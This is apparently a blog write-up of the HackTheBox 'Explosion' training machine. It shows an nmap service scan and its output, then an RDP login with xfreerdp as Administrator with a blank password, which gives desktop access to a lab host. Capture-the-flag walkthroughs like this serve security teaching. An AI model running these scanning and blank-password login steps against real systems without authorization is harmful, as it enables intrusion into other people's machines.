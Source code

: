 ```yaml
---
title: "HackTheBox - Explosion"
author: Nasrallah
description: ""
date: 2022-06-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, rdp]
img_path: /assets/img/hackthebox/machines/explosion
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Explosion](https://app.hackthebox.com/starting-point?tier=0) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.190.225 (10.129.190.225)        
Host is up (0.29s latency).
Not shown: 996 closed tcp ports (reset)                 
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-07-22T10:55:03+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-07-21T10:33:19 
|_Not valid after:  2023-01-20T10:33:19 
|_ssl-date: 2022-07-22T10:55:11+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-22T10:55:06
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

We see that we are dealing with a windows machine running smb and RDP on port 3389.

## **Foothold**

Let's try to connect to RDP using `xfreerdp`.

The script need some switches for it to try to connect to the target.

 - /u:{username} : Specifies the login username.
 - /v:{target_IP} : Specifies the target IP of the host we would like to connect to.

We will be login as user **Administrator** and submit a blank.

`xfreerdp /v:10.129.190.225 /u:Administrator`

![](1.png)

Wait a little bit and we get a GUI access to the target as Administrator.

![](2.png)

For better access, use the following command `xfreerdp /v:10.129.190.225 /u:Administrator /dynamic-resolution +clipboard`. This will allow us to us clipboard and resize the pane.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
